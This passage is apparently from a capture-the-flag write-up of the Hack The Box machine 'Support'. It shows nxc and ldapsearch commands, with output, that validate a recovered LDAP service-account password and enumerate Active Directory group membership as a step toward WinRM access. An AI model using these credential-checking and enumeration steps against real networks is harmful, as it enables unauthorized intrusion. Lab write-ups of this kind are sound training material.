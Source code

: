 
> We check authorization using the received credentialsye - `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`:

```bash

nxc smb support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

```

> Ok. Authorization was successful. Since this is an `ldap` service account I can upload information about any objects to `Active Directory`.

---
## 🔓 Initial Access

> The `nmap` scan earlier showed that we have an open port `5985 (winrm)`. We need to find out who is a member of the `Remote Management Users` group:

```bash

ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(cn=Remote Management Users)"

```
```bash

member: CN=support,CN=Users,DC=support,DC=htb

```

> User `support` is a member of this group. Display information about his account:

```bash

ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(sAMAccountName=support)"

```
<p align="center">